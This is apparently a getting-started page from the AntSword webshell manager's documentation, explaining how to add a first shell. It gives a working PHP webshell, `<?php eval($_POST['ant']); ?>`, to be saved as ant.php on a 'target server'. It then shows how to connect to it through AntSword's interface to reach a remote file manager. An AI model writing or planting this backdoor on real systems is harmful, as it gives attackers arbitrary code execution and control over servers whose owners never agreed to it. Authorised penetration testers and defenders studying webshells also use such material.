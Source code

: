 First Shell
---

> This section will teach you how to add a webshell quickly.

They are as follows：

> Take `PHP` as an Example:

##### 1.create a shell file under specific web directory in your target server

File Name: `ant.php`

Contents:

```
<?php eval($_POST['ant']); ?>
```

![][img_first_shell_1]

##### 2.Open AntSword, `right click` in the blank, select 「`add data`」 in the popped-up menu.

![][img_first_shell_2]

##### 3.Fill in anything needed in popped-up window.

![][img_first_shell_3]

Then, click `click` button. You should be able to see the webshell you've just added.

![][img_first_shell_4]

##### 4.Double-click the shell you've just added, then you should be able to see the main interface of file manager.

![][img_first_shell_5]

> All is that simple! ：）

[img_first_shell_1]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_1.jpg
[img_first_shell_2]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_2.jpg
[img_first_shell_3]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_3.jpg
[img_first_shell_4]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_4.jpg
[img_first_shell_5]: http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/first_shell_5.jpg
